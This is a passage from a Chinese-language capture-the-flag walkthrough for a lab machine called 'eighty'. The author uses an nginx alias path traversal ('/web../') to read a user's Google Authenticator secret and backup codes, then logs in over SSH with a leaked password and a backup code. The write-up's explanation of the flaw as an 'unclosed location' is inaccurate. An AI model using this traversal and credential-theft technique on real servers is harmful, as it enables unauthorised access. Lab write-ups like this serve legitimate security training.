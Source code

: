 访问这个文件

```plaintext title="http://susan.eighty.hmv/web/lostpasswd.txt"
8ycrois-tu0 + /home/susan/secret/.google-auth.txt
```

同时，结合上文得到的 nginx 配置文件

```plaintext
server {
server_name susan.eighty.hmv;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
        location /web {
                alias /home/susan/web/;
        }
  }
```

由于配置文件的 `location` 部分没有闭合，导致可以实现路径穿越

```plaintext title="http://susan.eighty.hmv/web../secret/.google-auth.txt"
2GN7KARBONVR55R7SP3UZPN3ZM
" RATE_LIMIT 3 30
" WINDOW_SIZE 17
" DISALLOW_REUSE
" TOTP_AUTH
71293338
48409754
27074208
60216448
17908010
```

## User - susan

```shell
┌─[randark@parrot]─[~]
└──╼ $ ssh susan@192.168.56.125
(susan@192.168.56.125) Password: ** 8ycrois-tu0 **
(susan@192.168.56.125) Verification code: ** 71293338 **
Linux eighty 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  2 07:01:10 2024 from 192.168.56.102
susan@eighty:~$ whoami
susan
```

:::note
